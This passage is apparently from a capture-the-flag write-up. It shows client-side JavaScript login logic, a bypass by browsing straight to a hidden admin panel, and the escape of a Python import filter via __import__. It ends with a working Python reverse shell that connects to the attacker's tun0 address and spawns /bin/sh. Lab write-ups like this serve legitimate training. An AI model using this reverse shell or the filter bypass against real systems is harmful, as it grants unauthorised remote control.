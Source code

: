 ```javascript
          txt += String.fromCharCode(97 + int_array[i]);
        }

        return txt;
      }

      document.forms[0].onsubmit = function (e){
          e.preventDefault();

          if(document.getElementById('username').value !== 'connor'){
            document.getElementById('fail').style.display = '';
            return false;
          }

          const chosenPass = document.getElementById('inputPassword').value;

          const hash = int_array_to_text(string_to_int_array(int_array_to_text(string_to_int_array(chosenPass))));

          if(hash === 'dxeedxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx'){
            window.location = 'super-secret-admin-testing-panel.html';
          }else {
            document.getElementById('fail').style.display = '';
          }
          return false;
      }
  </script>
```
{% endcode %}

We can see that on logging in as "connor" we get redirected to the <mark style="color:red;">"window.location = 'super-secret-admin-testing-panel.html';"</mark> page, so we try to navigate there manually and was able to bypass the login, and stumbled on a page that allows for python code execution --> [http://ip-address/super-secret-admin-testing-panel.html](http://ip-address/super-secret-admin-testing-panel.html)&#x20;

Unfortunatelly there is some restrictions. For example **import** statement is restricted. Lets try to bypass this restriction. We can try to use **\_\_import\_\_** statement. Knowing this we can prepare our code, bypass restrictions and get reverse shell with following code:

```python
o = __import__('os')
s = __import__('socket')
p = __import__('subprocess')

k=s.socket(s.AF_INET,s.SOCK_STREAM)
k.connect(("tun0_ip",7345))
o.dup2(k.fileno(),0)
o.dup2(k.fileno(),1)
o.dup2(k.fileno(),2)
c=p.call(["/bin/sh","-i"]);
```
